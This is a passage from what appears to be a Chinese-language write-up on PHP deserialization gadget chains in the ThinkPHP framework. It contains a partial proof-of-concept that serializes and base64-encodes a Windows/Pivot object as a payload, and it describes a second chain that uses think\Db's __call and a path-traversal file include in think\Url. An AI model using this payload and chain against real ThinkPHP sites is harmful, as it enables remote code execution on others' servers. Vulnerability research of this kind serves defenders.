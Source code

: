 ```php
    }
}

namespace think\process\Pipes;
use think\model\Pivot;

abstract class Pipes{}
class Windows extends Pipes{
    private $files = [];
    public function __construct(){
        $this->files = new Pivot();
    }
}

echo serialize(new Windows());
echo PHP_EOL;
echo base64_encode(serialize(new Windows()));
```

- 找到一个新的`__call`类

`think\Db`的`__call`方法存在可控参数能实例化任意类，可用性比较大：

```php
public function __call($method, $args)
    {
        $class = $this->config['query'];

        $query = new $class($this->connection);

        return call_user_func_array([$query, $method], $args);
    }
```

配合`think\Url`中存在的可目录穿越的任意route.php进行文件包含，但需要提前上传该文件。此处不放poc了，写法只是替换了Request::input部分。

```php
///src/think/Url.php
public function __construct(App $app, array $config = [])
    {
        $this->app    = $app;
        $this->config = $config;

        if (is_file($app->getRuntimePath() . 'route.php')) {//可控
            // 读取路由映射文件
            $app->route->setName(include $app->getRuntimePath() . 'route.php');
        }
    }

///src/think/App.php
public function getRuntimePath(): string
    {
        return $this->runtimePath;//可控
    }
```
